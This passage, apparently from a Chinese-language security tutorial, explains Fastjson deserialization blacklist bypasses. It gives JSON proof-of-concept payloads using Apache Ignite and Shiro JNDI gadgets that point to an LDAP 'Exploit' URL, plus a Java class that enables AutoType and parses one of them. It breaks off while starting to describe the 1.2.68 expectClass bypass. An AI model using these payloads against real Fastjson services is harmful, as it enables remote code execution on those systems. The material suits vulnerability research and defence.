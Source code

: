 ### 漏洞原理

新Gadget绕过黑名单限制。

org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类PoC：

JSON

```
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup", "jndiNames":["ldap://localhost:1389/Exploit"], "tm": {"$ref":"$.tm"}}
```

org.apache.shiro.jndi.JndiObjectFactory类PoC：

JSON

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://localhost:1389/Exploit","instance":{"$ref":"$.instance"}}
```

EXP

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
import com.sun.xml.internal.ws.api.ha.StickyFeature;  
  
public class EXP_1267 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup\"," +  
                " \"jndiNames\":[\"ldap://localhost:1234/ExportObject\"], \"tm\": {\"$ref\":\"$.tm\"}}";  
 JSON.parse(poc);  
 }  
}
```

## 0x05 1.2.68反序列化漏洞（expectClass绕过AutoType）

- 这个洞可以稍微看一下，感觉是可以结合利用的。

### 前提条件

- Fastjson <= 1.2.68；
- 利用类必须是expectClass类的子类或实现类，并且不在黑名单中；

### 漏洞原理

本次绕过`checkAutoType()`函数的关键点在于其第二个参数expectClass，可以通过构造恶意JSON数据、传入某个类作为expectClass参数再传入另一个expectClass类的子类或实现类来实现绕过`checkAutoType()`函数执行恶意操作。

简单地说，本次绕过`checkAutoType()`函数的攻击步骤为：
